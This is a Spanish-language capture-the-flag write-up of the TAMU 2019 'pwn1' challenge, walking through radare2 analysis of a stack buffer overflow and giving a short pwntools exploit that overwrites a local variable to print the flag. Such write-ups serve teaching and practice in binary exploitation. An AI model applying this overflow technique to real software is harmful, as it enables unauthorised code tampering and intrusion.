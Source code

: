 ```yaml
---
layout: post
title: TAMU 2019 pwn1 - BufferOverflow
author: c4rta
date: 2023-01-06
##categories: [Explotacion binaria]
tags: [Explotacion Binaria, BoF stack based]
image: /assets/img/tamu-pwn1/waifu.webp
---
```

Tenemos un BoF stack based donde lo usaremos para sobrescribir el valor de una variable
{:.lead}

El binario lo pueden descargar con:

```wget https://github.com/guyinatuxedo/nightmare/raw/master/modules/04-bof_variable/tamu19_pwn1/pwn1```

## Analisis

El binario cuenta con las siguientes protecciones:

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   77 Symbols	  No	0		2		pwn1
```
No tienec Canary asi que podemos intentar un buffer overflow, sin embargo tiene NX, asi que no podemos ejecutar una shellcode.

Aqui intente ejecutar el binario pasandole lo que sea y luego tratando de ocasionar un buffer overflow:

![](/assets/img/tamu-pwn1/binario1.png)

Pero de ninguna forma funciono, asi que vamos a ver que esta pasando, para el reversing usare radare2

Y miren, aqui tenemos la funcion que recibe nuestro input:

![](/assets/img/tamu-pwn1/radare1.png)

Lo mas descatable son las instrucciones:

- lea eax, [ebx - 0x159f]: Que lo que esta haciendo es cargar la direccion de memoria que esta contenida en ```ebx-0x159f```, esto significa que se está leyendo la dirección de memoria contenida en la ubicación de memoria apuntada por ebx-0x159f y luego cargando esa dirección en el registro eax. y lo que tiene esa direccion de memoria es nuestro input

- push eax: Luego nuestro input lo mete al stack

- lea eax, [ s1]: Esto hace lo mismo que ```lea eax, [ebx - 0x159f]``` pero ahora hay que tomar en cuenta que lo esta haciendo con lo que tiene la variable ```s1```, esta se esta declarando como ```var char *s1 @ ebp-0x3b``` y esta 56 bytes por debajo del ```EBP``` 

Despues tenemos una comparacion que es:

![](/assets/img/tamu-pwn1/radare2.png)

Lo que hace primero con ```add``` es sumarle 16 bytes al ```ESP```, esto con el fin para ajustar la posicion del ```ESP``` en el stack. Despues con ```test```se hace una operacion AND bit a bit entre lo que le metimos como input y lo que tiene ```s1```, y esto sirve ya que despues tenemos la intruccion ```je``` que significa ```salta si es igual```, asi que si el input y ```si``` son iguales, la flag ```ZF``` se establece en 1 y salta a la direccion ```0x5655582f``` y si no, la ```ZF``` se establace en 0 y en este caso lo que pasa es que el programa se detiene como se puede ver aqui en esta imaguen que pinte jiji:

![](/assets/img/tamu-pwn1/radare3.gif)

Si son iguales el programa sigue con la ejecucion desde la funcion ```0x5655582f``` (color amarillo), y si no simplemente hace un exit y se detiene (color rojo).

Despues en el programa tenemos otro input, pero es exactamente lo mismo que el que acabe de explicar, solo que la pregunta seria... ¿Cual es el valor de ```s1``` con el que nuestro input se esta comparando?, y lo que se me ocurrio a mi fue: si la variable ```s1``` se esta declarando como una variable global, entonces en la seccion .rodata de el binario debe de estar, esto es por que en .rodata se encuentran las variables inicializadas globalmente pero de solo lectura, entonces mostre la seccion .rodata con el comando ```iz```: 

![](/assets/img/tamu-pwn1/radare4.png)

Y wow, ahora sabemos que nuestros inputs se estan comparando con ```Sir Lancelot of Camelot``` y ```To seek the Holy Grail```, y wow, esto es completamente inutil ya que no nos sirve para nada jaja, lo que en realidad nos sirve es lo que sigue y es donde dice:

```What... is my secret?```

Y aqui es otro input y su codigo en emsamblador es:

![](/assets/img/tamu-pwn1/radare5.png)

Esto es un mas facil de analizar, simplemente compara lo que se almacena en```var_10h``` con el valor ```0xdea110c8``` y si son iguales manda a llama a la funcion ```sym.print_flag```, que basicamente es la que imprime la flag. 

Y para explotarlo, tenemos que hacer es sobreescribir el contenido de ```var_10``` usando ```gets```, pero no es tan obvio como parece, tenemos que tomar en cuenta en donde se ubican dos variables: ```var_10``` y ```s```, esto con el fin de saber el desplazamiento entre esas dos y saber cuantos bytes hay que meter.

Para saber donde esta ```var_10``` vemos la declaracion de la variable:

```var uint32_t var_10h @ ebp-0x10```

Esta esta 0x10 por debajo del EBP, es decir, 16 bytes.

Y para ```s1```:

```var char *s1 @ ebp-0x3b```

Esta a 0x3b, es decir, 59 bytes

Entonces tenemos un desplazamiento de 59 - 16 = 43, asi que debemos de escribir 43 bytes antes de sobreescribir la variable

## Exploit

```py
from pwn import *

target = process('./pwn1')

payload = b"A"*43 #Esto es el padding
payload += p32(0xdea110c8) #el valor por la cual la vamos a sobreescribir

target.sendline("Sir Lancelot of Camelot")
target.sendline("To seek the Holy Grail.")

target.sendline(payload)
target.interactive()
```

Y listo

```
python3 exploit.py

[+] Starting local process './pwn1': pid 26329
/home/c4rta/Downloads/exploit.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline("Sir Lancelot of Camelot")
/home/c4rta/Downloads/exploit.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline("To seek the Holy Grail.")
[*] Switching to interactive mode
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz} --> la flag
```

Eso ha sido todo, gracias por leer ❤